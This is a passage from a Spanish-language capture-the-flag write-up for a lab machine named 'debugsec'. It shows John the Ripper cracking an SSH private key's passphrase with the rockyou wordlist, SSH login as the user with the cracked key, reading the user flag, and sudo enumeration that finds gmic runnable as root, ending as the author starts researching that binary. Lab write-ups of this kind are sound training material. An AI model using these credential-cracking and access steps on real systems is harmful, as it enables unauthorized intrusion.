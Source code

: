 Con **JohnTheRipper** la intentamos crackear:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pangga           (id_rsa)     
1g 0:00:01:22 DONE (2025-07-22 12:59) 0.01205g/s 36.46p/s 36.46c/s 36.46C/s lance..love06
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Tenemos la frase usada en la **llave privada id_rsa**.

Vamos a autenticarnos como el **usuario debugsec**:
```bash
ssh -i id_rsa debugsec@192.168.10.210
Enter passphrase for key 'id_rsa': 
Linux debugsec 6.1.0-21-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.90-1 (2024-05-03) x86_64
...
Last login: Tue Jul 22 20:59:52 2025
debugsec@debugsec:~$ whoami
debugsec
```
Funcionó.

Ahora sí podemos leer la flag del usuario:
```bash
debugsec@debugsec:~$ ls
user.txt
debugsec@debugsec:~$ cat user.txt
...
```

<br>

<h2 id="gmic">Escalando Privilegios Abusando de los Privilegios Sudoers sobre Binario gmic</h2>

Veamos qué privilegios tiene nuestro usuario:
```bash
debugsec@debugsec:~$ sudo -l
Matching Defaults entries for debugsec on debugsec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User debugsec may run the following commands on debugsec:
    (root) NOPASSWD: /usr/bin/gmic
```
Muy bien, podemos usar el **binario gmic** como **Root**.

El problema es que no conozco este binario, así que vamos a investigar de qué se trata:

| **GREYC's Magic for Image Computing** |
|:--------------:|
| *gmic (o G'MIC) es un framework de procesamiento de imágenes muy poderoso, que se puede usar desde línea de comandos, con su propia sintaxis de scripting, o mediante interfaces gráficas como GIMP o Krita.* |
